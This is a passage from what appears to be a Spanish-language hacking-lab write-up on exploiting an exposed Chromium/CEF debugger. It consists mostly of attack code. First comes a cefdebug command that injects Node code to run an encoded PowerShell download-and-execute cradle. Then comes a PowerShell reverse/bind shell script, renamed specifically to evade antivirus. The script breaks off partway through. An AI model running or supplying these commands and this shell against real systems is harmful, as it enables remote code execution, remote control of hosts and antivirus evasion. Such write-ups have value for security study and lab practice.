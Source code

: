 Ahora sí, podemos meter el output en el comando. Quedaría así:

```powershell
.\cefdebug.exe --url ws://127.0.0.1:40710/91dd2790-67cb-4ca1-8864-bdfd12c22bc3 --code "process.mainModule.require('child_process').exec('powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAAp')"
```


En caso de que nos de por culo el AV, aquí hay una versión modificada del PS.ps1:

```powershell
function ruycr4ft
{
[CmdletBinding(DefaultParameterSetName="reverse")] Param(
  
[Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
[Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
[String]
$IPAddress,
  
[Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
[Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
[Int]
$Port,
  
[Parameter(ParameterSetName="reverse")]
[Switch]
$Reverse,
  
[Parameter(ParameterSetName="bind")]
[Switch]
$Bind
  
)
  
try
{
if ($Reverse)
{
$client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
}
  
if ($Bind)
{
$listener = [System.Net.Sockets.TcpListener]$Port
$listener.start()
$client = $listener.AcceptTcpClient()
}
  
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
  
$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)
  
$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)
  
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
$data = $EncodedText.GetString($bytes,0, $i)
try
```
